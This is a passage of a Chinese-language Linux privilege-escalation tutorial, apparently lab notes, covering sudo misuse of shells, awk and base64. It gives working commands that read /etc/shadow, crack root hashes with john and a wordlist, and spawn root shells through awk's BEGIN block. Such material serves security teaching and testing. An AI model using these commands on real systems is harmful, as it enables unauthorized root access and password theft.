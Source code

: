 ```bash
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685588443479-147a1f29-2946-4f50-8fa3-fc3b7965e97c.png#averageHue=%235c5d62&clientId=ucb810bc9-7246-4&from=paste&height=157&id=u4e1893da&originHeight=196&originWidth=1835&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=78488&status=done&style=none&taskId=u8ddf5296-7b73-45f7-b5d8-f9497601361&title=&width=1468)
`$6$` 是 SHA-512 加密，用 **john **爆破
```bash
john --format=sha512crypt passwd --wordlist=/usr/share/wordlists/rockyou.txt
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685588671149-1b12eeb3-6c3a-4cb7-8c68-3a2518e64581.png#averageHue=%2354555b&clientId=udc675dd6-1ea4-4&from=paste&height=237&id=u9f598786&originHeight=296&originWidth=1080&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=99291&status=done&style=none&taskId=uc1042227-3529-46c1-a0aa-be59fbe1eb6&title=&width=864)
**爆破出 root 密码！**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685588943494-695b3f01-ced9-43ff-88b1-ce53032b3878.png#averageHue=%2352535a&clientId=udc675dd6-1ea4-4&from=paste&height=135&id=u583d4bd4&originHeight=169&originWidth=553&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=37237&status=done&style=none&taskId=u56145db6-d224-4e2f-890e-d854cf3dc7d&title=&width=442.4)
提权成功！！！
## 情景十五 - ash、bash、zsh、dash
ash、bash、zsh、dash 都是 linux shell 环境，直接 **sudo** 提权
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685589084470-30012658-a9dd-492f-a080-531ae5a34252.png#averageHue=%235a5c61&clientId=udc675dd6-1ea4-4&from=paste&height=206&id=u5df501b0&originHeight=258&originWidth=594&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=54741&status=done&style=none&taskId=u19bf0d0e-076e-448e-bcb0-0ddfb785cec&title=&width=475.2)
## 情景十六 - awk
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685593439165-2df7562d-522e-4e2e-8ca3-0dbd27d9503f.png#averageHue=%233f414a&clientId=udc675dd6-1ea4-4&from=paste&height=114&id=u22f4aa68&originHeight=142&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=63586&status=done&style=none&taskId=u4b9093e9-48a1-4dbd-b2a0-4cccbdfec2c&title=&width=457.6)
### 方法一 - 文件任意读取
```bash
sudo awk '//' /etc/shadow
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685593598127-b9784077-7987-4a91-a2fc-8454e4235a64.png#averageHue=%2340434d&clientId=udc675dd6-1ea4-4&from=paste&height=591&id=u4a3315f8&originHeight=739&originWidth=1623&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=475986&status=done&style=none&taskId=u2afc0909-6df4-4b6a-84b7-0430b774fa3&title=&width=1298.4)
### 方法二 - Begin 模式提权
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
# BEGIN 是 awk 一种特殊模式，表示处理输入流前执行的动作
# 处理输入流前执行系统的 /bin/bash ,以获得提权
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685593905477-050b2519-49aa-4b73-a064-97f133c68b74.png#averageHue=%235a5b61&clientId=udc675dd6-1ea4-4&from=paste&height=154&id=u40b3bf3e&originHeight=192&originWidth=709&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=64025&status=done&style=none&taskId=ue91e7a0e-17b0-4454-81e2-f4422059b99&title=&width=567.2)
## 情景十七 - base64、base16、base32
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685594177794-de481553-e282-4c5c-8ac8-582aec564c91.png#averageHue=%23606166&clientId=udc675dd6-1ea4-4&from=paste&height=73&id=ufe62ba6c&originHeight=91&originWidth=531&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=17123&status=done&style=none&taskId=u5b6a11b4-3a87-48a3-b449-75707196546&title=&width=424.8)
可以使用 **base64 **先编码，再解码，以实现任意文件的读取
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685594655107-d57e30fd-f75f-4632-a96e-3b09159ede3f.png#averageHue=%23272a32&clientId=udc675dd6-1ea4-4&from=paste&height=77&id=u7269b1d0&originHeight=96&originWidth=609&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29942&status=done&style=none&taskId=uf79362e3-23ee-4190-aad9-74f307d6d03&title=&width=487.2)
```bash
$GTC_FILE=/etc/shadow

sudo base64 "$GTC_FILE" | base64 -d
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685594453346-98733472-4191-4d0d-9a8e-4fe483c11c16.png#averageHue=%23353844&clientId=udc675dd6-1ea4-4&from=paste&height=627&id=uffd903a7&originHeight=784&originWidth=1624&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=489170&status=done&style=none&taskId=uad3313f5-1d24-4685-88b2-61bbaf8fb4b&title=&width=1299.2)
这样就可以** john** 爆破出 **root** 密码以实现提权。
## 情景十八 - cp
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595211619-07d60c3b-cfd5-4ec7-b56d-5663ad6c230e.png#averageHue=%23626368&clientId=udc675dd6-1ea4-4&from=paste&height=67&id=u874562a1&originHeight=84&originWidth=559&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=19189&status=done&style=none&taskId=u125bb8e0-ffa0-4a7d-9d0c-70479818642&title=&width=447.2)
